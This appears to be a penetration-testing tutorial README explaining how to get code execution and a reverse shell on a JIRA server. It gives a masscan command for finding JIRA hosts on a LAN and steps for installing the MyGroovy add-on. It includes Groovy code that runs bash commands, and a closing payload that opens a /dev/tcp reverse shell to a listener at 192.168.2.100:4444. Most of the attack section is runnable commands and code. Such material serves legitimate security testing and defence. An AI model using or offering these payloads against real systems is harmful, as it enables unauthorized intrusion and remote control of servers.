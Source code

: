 # Reverse shell from JIRA
Since I haven't found any well explained articles on how to get reverse shell from JIRA web application server, I thought it could be a good idea to cover this subject with the pentesters community.  
  
## 0x00 : Introduction on JIRA&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/JIRA.jpg" width="20"/>
  
JIRA Software is a powerful platform that combines issue collection and agile project management capabilities into a single application. Using JIRA helps you plan and organize tasks, workflows, and reports for your agile team more efficiently.  
  
I've seen many environment in my career where the JIRA web application is installed without or with poor credentials which maybe some admins ignore the fact that we can get remote code execution on this web app. 
  
## 0x01 : Locate the JIRA servers on the LAN&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/0x01.png" width="35"/>
  
Usually, JIRA servers are configured by default to run on port 8080 but I've seen many times where the bind port was changed to 80 (HTTP) or 443 (HTTPS). For discovering what is on the LAN, I would choose masscan available on the link below:  
  
→ https://github.com/robertdavidgraham/masscan  
  
Let's say that you are inside a local area network with the subnet *192.168.255.0* and your local IP address is *192.168.123.45* and wish to perform a complete network scan to discover those JIRA servers. The syntax for running masscan I would use would be:  
```
./masscan 192.168.0.0-192.168.255.255 -p80,443,8080 -oL JIRA.where-are-you.txt --max-rate 10000 --open --banners -sS -Pn -n --randomize-hosts -v --send-eth
```  
After masscan finished scanning the LAN, you will see output results inside of the file *JIRA.where-are-you.txt*. JIRA should look like this in your web browser:  
  
<img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/screen1.jpg" width="1000"/>  
  
## 0x02 : Getting Remote Code Execution from JIRA&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/bomb.jpg" width="20"/>  
  
You are probably saying OK, I'm logged in on JIRA, now what? You have to know that JIRA supports the *Groovy* language. Groovy is a powerful, optionally typed and dynamic language, with static-typing and static compilation capabilities, for the Java platform aimed at improving developer productivity thanks to a concise, familiar and easy to learn syntax. It integrates smoothly with any Java program, and immediately delivers to your application powerful features, including scripting capabilities, Domain-Specific Language authoring, runtime and compile-time meta-programming and functional programming.  
  
We will use the add-on *MyGroovy* in order to execute our script to execute shell commands. To do so, go to the Administration button (top-right) and choose *Add-ons*. It will ask again for your credentials. In the search field, type *MyGroovy*, press Enter and click on the Install button. After the installation, go on the left menu and click on *MyGroovy console*. You should see this in your web browser:
  
<img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/screen2.jpg" width="1000"/> 
  
Are you ready for RCE? In the console box, type:
```
def command = '''
    touch /tmp/jira-RCE
'''
def proc = ['bash', '-c', command].execute()
proc.waitFor()
println proc.text
```  
Let's see if we had success with our script...  
```
root@blackb0x:/root# ls -al /tmp/
drwxrwxrwt 12 root   root    32768 Dec  2 01:32 .
drwxr-xr-x 25 root   root     4096 Nov 25 12:57 ..
-rw-r-----  1 jira   jira        0 Dec  2 01:32 jira-RCE
```  
<img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/shrug.jpg" width="200"/> 
Easy like that.  
  
## 0x03 : Let's get reverse shell !&nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/From_JIRA_to_Shell/master/img/shell1.png" width="20"/>
To finalize this assessment, I believe a cool way would be to obtain reverse shell from JIRA. In order to get a rev shell, we will type again in the console box of *MyGroovy* add-on the following script assuming your netcat listener is 192.168.2.100 on port 4444:  
```  
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.2.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() 
```  
